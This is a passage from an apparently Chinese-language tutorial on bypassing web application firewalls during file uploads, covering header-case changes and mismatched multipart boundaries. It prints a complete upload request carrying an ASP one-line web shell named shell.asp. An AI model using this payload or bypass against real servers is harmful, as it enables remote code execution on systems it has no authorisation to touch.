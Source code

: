 ###### 修改Content-Disposition字段值的大小写

![6](https://github.com/Anthem9/everyday/raw/master/writings/%E7%AE%80%E5%8D%95%E7%B2%97%E6%9A%B4%E7%9A%84%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E6%BC%8F%E6%B4%9E/6.png)

###### Boundary边界不一致

每次文件上传时的Boundary边界都是一致的：

```
Content-Type: multipart/form-data; boundary=---------------------------4714631421141173021852555099
Content-Length: 253
-----------------------------4714631421141173021852555099
Content-Disposition: form-data; name="file1"; filename="shell.asp"
Content-Type: application/octet-stream

<%eval request("a")%>
-----------------------------4714631421141173021852555099--
```

但如果容器在处理的过程中并没有严格要求一致的话可能会导致一个问题，两段Boundary不一致使得waf认为这段数据是无意义的，可是容器并没有那么严谨：
Win2k3 + IIS6.0 + ASP
![7](https://github.com/Anthem9/everyday/raw/master/writings/%E7%AE%80%E5%8D%95%E7%B2%97%E6%9A%B4%E7%9A%84%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E6%BC%8F%E6%B4%9E/7.png)
